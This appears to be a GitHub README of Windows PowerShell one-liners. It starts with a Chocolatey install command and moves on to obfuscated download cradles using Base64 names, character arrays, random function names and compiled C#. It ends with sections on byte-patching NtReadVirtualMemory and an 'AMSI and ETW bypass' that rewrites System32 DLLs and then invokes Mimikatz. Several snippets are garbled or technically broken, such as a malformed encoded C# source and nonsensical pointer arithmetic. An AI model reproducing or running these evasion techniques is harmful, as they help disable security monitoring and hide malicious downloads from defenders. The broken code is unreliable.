 # Calvin_Windows_Shortcuts
Windows shortcuts and one liners


## Install Chocolately package manager as pwsh1liner
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
```


## Install Chocolatey again
```powershell
$u='https://chocolatey.org/install.ps1';$o='install.ps1';$w=([text.encoding]::ASCII).GetString([Convert]::FromBase64String('V2ViQ2xpZW50'));$m=([text.encoding]::ASCII).GetString([Convert]::FromBase64String('RG93bmxvYWRGaWxl'));$c=[type]('System.Net.'+$w);$i=$c::new();$i.$m.Invoke($i, ($u, $o))
```


## This script uses the following obfuscation techniques:

Encode the method and property names as arrays of character codes.  
Use script blocks and invoke them with the call operator (&).  
Combine Base64-encoded class names with ASCII encoding, as in the previous example.  
  
```powershell
[char[]]$e=@(68,111,119,110,108,111,97,100,70,105,108,101);[char[]]$u=@(85,114,105);$r={param($x) return [char[]]$x -join ''};$w=([text.encoding]::ASCII).GetString([Convert]::FromBase64String('V2ViQ2xpZW50'));$c=[type]('System.Net.'+$w);$i=$c::new();& ($r.Invoke($e)) $i (&($r.Invoke($u)) 'https://chocolatey.org/install.ps1') 'install.ps1'
```


### Using aliases and a script block with a randomly generated name:  
```powershell
$alias = @{dl = 'Invoke-WebRequest'; u = 'Uri'; o = 'OutFile'}
$randomName = -join ((65..90) + (97..122) | Get-Random -Count 8 | % {[char]$_})
${function:$randomName} = {
    param($url, $file)
    & $alias.dl -Uri $url -OutFile $file
}
& $randomName 'https://chocolatey.org/install.ps1' 'install.ps1'
```

### Downloading the file in chunks and reassembling it:
```powershell
$url = 'https://chocolatey.org/install.ps1'
$outputFile = 'install.ps1'
$webClient = New-Object System.Net.WebClient
$response = $webClient.GetResponse()
$totalSize = [long]$response.ContentLength
$response.Close()
$chunkSize = 1024
$chunks = [Math]::Ceiling($totalSize / $chunkSize)
$stream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
for ($i = 0; $i -lt $chunks; $i++) {
    $start = $i * $chunkSize
    $end = $start + $chunkSize - 1
    if ($end -gt $totalSize - 1) { $end = $totalSize - 1 }
    $webClient.Headers['Range'] = "bytes=$start-$end"
    $buffer = $webClient.DownloadData($url)
    $stream.Write($buffer, 0, $buffer.Length)
}
$stream.Close()
```

### CSharp stufff
```powershell
$sourceCode = @"
using System;
using System.IO;
using System.Net;

public class FileDownloader
{
    public static void DownloadFile(string url, string outputFile)
    {
        using (WebClient webClient = new WebClient())
        {
            webClient.DownloadFile(url, outputFile);
        }
    }
}
"@

Add-Type -TypeDefinition $sourceCode -Language CSharp

$url = 'https://chocolatey.org/install.ps1'
$outputFile = 'install.ps1'
[FileDownloader]::DownloadFile($url, $outputFile)
```

### CSharpd
```powershell
$base64EncodedSourceCode = @"
dXNpbmcgU3lzdGVtOwppbXBvcnQgU3lzdGVtLklPLwp1c2luZyBTeXN0ZW0uTmV0OwoKcHVibGljIGNsYXNzIEZpbGVEb3dubG9hZGVyCnsKICAgIHB1YmxpYyBzdGF0aWMgdm9pZCBEb3dubG9hZEZpbGUoc3RyaW5nIHVybCwgc3RyaW5nIG91dHB1dEZpbGUpCiAgICB7CiAgICAgICAgdXNpbmcgKFdlYkNsaWVudCB3ZWJDbGllbnQgPSBuZXcgV2ViQ2xpZW50KCkpCiAgICAgICAgewogICAgICAgICAgICB3ZWJDbGllbnQuRG93bmxvYWRGaWxlKHVybCwgb3V0cHV0RmlsZSk7CiAgICAgICAgfQogICAgfQp9Cg==
"@

$sourceCode = [Text.Encoding]::ASCII.GetString([Convert]::FromBase64String($base64EncodedSourceCode))
Add-Type -TypeDefinition $sourceCode -Language CSharp

$url = 'https://chocolatey.org/install.ps1'
$outputFile = 'install.ps1'
[FileDownloader]::DownloadFile($url, $outputFile)

```


### Brainfuck
```powerwshell
&{param($x)${function:l}=-join (65..90+97..122|%{[char]$_}|Get-Random -Count $x)};${function:($(l 4))}=&{param($u,$f)${function:($(l 6))}=&{param($x)return[char[]]$x-join''};${function:($(l 6))}=','+[char]39+${function:($(l 6))}(68,111,119,110,108,111,97,100,70,105,108,101)+[char]39+'('+$u+','+$f+')';${function:($(l 6))}=([text.encoding]::ASCII).GetString([Convert]::FromBase64String('V2ViQ2xpZW50'))+$(l 2);${function:($(l 6))}='['+$(l 1)+']('+$(l 6)+')';${function:($(l 6))}=(([char]96)+'c='+[type]('System.Net.'+${function:($(l 6))})).FullName);${function:($(l 6))}=$($(l 1)+[char]58+${function:($(l 6))})::new();${function:($(l 6))}.Invoke(${function:($(l 6))},(${function:($(l 6))}($u,$f)))};&($(l 4)) 'https://chocolatey.org/install.ps1' 'install.ps1'

```


### direct syscalls by importing an assembly . Built assembly. replace the first 5 bytes of NtReadVirtualMemory
```powershell
# Import the assembly
[Reflection.Assembly]::LoadFile("C:\Path\To\Assembly.dll")

# Replace the first 5 bytes of NtReadVirtualMemory
[System.Runtime.InteropServices.Marshal]::Copy([System.Text.Encoding]::ASCII.GetBytes("\x90\x90\x90\x90\x90"), 0, [System.IntPtr]::Add([System.IntPtr]::Zero, [System.IntPtr]::Size * 0x7FFE0030), 5)
```

### Something also syscall
```powershell
Reflection.Assembly]::LoadWithPartialName("System.Diagnostics.Process")

$process = New-Object System.Diagnostics.Process
$process.StartInfo.FileName = "cmd.exe"
$process.StartInfo.Arguments = "/c dir"
$process.StartInfo.UseShellExecute = $false
$process.StartInfo.RedirectStandardOutput = $true
$process.Start()
$output = $process.StandardOutput.ReadToEnd()
$process.WaitForExit()
Write-Host $output
```


# AMSI and ETW Bypass , tested using the forbidden string 'Invoke-Mimiktaz'
```powershell
 # AMSI and ETW Bypass

$AmsiBypass = {
  $AmsiDllPath = (Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name 'windir').'windir' + '\System32\amsi.dll'
  $AmsiDll = [System.IO.File]::ReadAllBytes($AmsiDllPath)
  $AmsiDll[0xB4] = 0xB0
  [System.IO.File]::WriteAllBytes($AmsiDllPath, $AmsiDll)
  }

$EtwBypass = {
  $EtwDllPath = (Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name 'windir').'windir' + '\System32\etwcls.dll'
  $EtwDll = [System.IO.File]::ReadAllBytes($EtwDllPath)
  $EtwDll[0xB4] = 0xB0
  [System.IO.File]::WriteAllBytes($EtwDllPath, $EtwDll)
  }
Invoke-Command -ScriptBlock $AmsiBypass
Invoke-Command -ScriptBlock $EtwBypass
# Test Forbidden String
Invoke-Mimikatz
```
